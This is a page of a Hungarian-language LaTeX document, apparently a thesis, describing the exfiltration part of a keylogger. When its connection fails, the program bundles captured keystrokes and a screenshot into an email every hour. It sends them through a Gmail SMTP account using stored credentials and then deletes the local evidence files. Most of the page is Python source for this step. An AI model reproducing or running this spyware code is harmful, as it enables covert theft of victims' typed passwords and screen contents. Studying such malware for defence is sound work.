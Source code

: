 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
Ha a kapcsolat felbomlott, akkor e-mail-en keresztül küldi tovább az adatokat óránként. Itt lépnek érvénybe a gmail cím, a jelszó, a gmail szolgáltatás, és a gmail port. Az adat felépítése ugyan úgy zajlik, mint a kapcsolat alatt. Ebben az esetben a lenyomott billentyűket összegyűjti egy állományba és azt csatolja később az e-mail-hez a képernyőképpel együtt. Egy e-mail felépítése python 3-ban:
\begin{lstlisting}{language=Python}
msg = MIMEMultipart()
msg['From'] = self.email_address
msg['To'] = self.email_address
msg['Subject'] = 'Keylogger result'
body = date_time
msg.attach(MIMEText(body, 'plain'))
file_attachment = MIMEBase('application', 'octet-stream')

with open(os.path.join(temp_path, filename), 'rb') as handler:
file_attachment.set_payload(handler.read())

encoders.encode_base64(file_attachment)
file_attachment.add_header('Content-Disposition', "attachment; filename=" + filename)
msg.attach(file_attachment)

if take_screenshot(temp_path):
	image_attachment = MIMEBase('application', 'octet-stream')

	with open(os.path.join(temp_path, "screenshot.png"), 'rb') as handler:
		image_attachment.set_payload(handler.read())

	encoders.encode_base64(image_attachment)
	image_attachment.add_header('Content-Disposition', "attachment; filename=screenshot.png")
	msg.attach(image_attachment)

content = msg.as_string()
\end{lstlisting}
Miután felépítettük az e-mail-t, kell csatlakozni a gmail szolgáltatóhoz és elküldeni azt. Ha az e-mail sikeresen el lett küldve, akkor az az állomány, amelybe a lenyomott billentyűket mentettük, törlésre kerül, hogy ne küldjük el ugyan azt mégegyszer. A $content$ változó tartalmazza a teljes e-mail-t a csatolmányokkal együtt.
\begin{lstlisting}{language=Python}
with smtplib.SMTP(self.smtp_alias, self.smtp_port) as smtp_server:
	smtp_server.starttls()
	smtp_server.login(self.email_address, self.email_password)
	smtp_server.sendmail(self.email_address, self.email_address, content)

if os.path.isfile(os.path.join(temp_path, filename)):
	os.remove(os.path.join(temp_path, filename))
if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
	os.remove(os.path.join(temp_path, "screenshot.png"))
\end{lstlisting}
\end{document}
